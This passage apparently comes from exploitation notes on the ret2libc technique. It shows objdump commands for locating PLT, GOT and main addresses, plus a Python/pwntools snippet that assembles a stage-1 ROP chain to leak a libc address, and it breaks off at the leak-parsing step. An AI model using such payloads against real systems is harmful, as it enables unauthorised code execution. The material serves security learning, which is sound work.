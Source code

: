 ###### Printing function PLT and GOT entries

The entries in the `PLT` and `GOT` tables for the printing function must be
retrieved, which can be done by disassembling the `plt` entry of the binary
with the `objdump` Linux utility:

```bash
objdump -D <BINARY> | grep <PRINTING_FUNC>
<ADR_PLT_PRINTING>:	ff 25 32 0b 20 00    	jmpq   *0x200b32(%rip)        # <ADR_GOT_PRINTING> <PRINTING_FUNC@GLIBC_2.2.5>
```

###### Return to main

To continue the program execution flow after printing the `GOT` entry in
`libc`, in order to avoid the re randomization of the address space, a return
at the beginning of the program, the `main` function, is needed. It simply
consist in adding the `main` function address in the ROP chain after calling
the printing function. This mechanism is called `ret2main`.

The address of the `main` function in the `text` section can found using the
`objdump` Linux utility:

```bash
objdump -D <BINARY> | grep main
<0000000000ADR_MAIN> <main>:
```

###### Stage 1 payload

Once the needed addresses have been retrieved, the following ROP chain can be
constructed: `junk + pop_rdi + printing_func_got + printing_func_plt + main_plt`.

The following Python snippet can be used to generate the payload:

```python
junk = 'A' * <PADDING>

# Address example: 0x404028

# Python built-ins
pop_rdi = struct.pack('<Q', <ADR_POP_RDI>)
printing_func_plt = struct.pack('<Q', <ADR_PLT_PRINTING>)
printing_func_got = struct.pack('<Q', <ADR_GOT_PRINTING>)
main_plt = struct.pack('<Q', <ADR_MAIN>)

# pwntools
pop_rdi = p64(<ADR_POP_RDI>)
printing_func_plt = p64(<ADR_PLT_PRINTING>)
printing_func_got = p64(<ADR_GOT_PRINTING>)
main_plt = p64(<ADR_MAIN>)

payload = junk + pop_rdi + printing_func_got + printing_func_plt + main_plt
```

###### Automated parsing of the leaked address

